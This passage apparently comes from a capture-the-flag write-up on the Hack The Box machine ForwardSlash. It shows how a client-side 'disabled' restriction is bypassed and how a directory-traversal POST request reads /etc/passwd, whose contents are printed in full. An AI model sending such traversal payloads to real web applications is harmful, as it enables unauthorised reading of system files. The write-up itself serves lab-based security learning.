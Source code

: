 But that's just from the HTML so let's edit the DOM, remove the `disabled`
attributes and send a request:

![](https://i.imgur.com/qd8GXZj.png)

By doing a directory traversal on `/etc/passwd` we obtained a file disclosure:

```
POST /profilepicture.php HTTP/1.1
Host: backup.forwardslash.htb
...
Cookie: PHPSESSID=mbmjmv76c2veso4c1ihneuh5bt

url=..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
pain:x:1000:1000:pain:/home/pain:/bin/bash
chiv:x:1001:1001:Chivato,,,:/home/chiv:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
```

### HTTP exploitation: SSRF

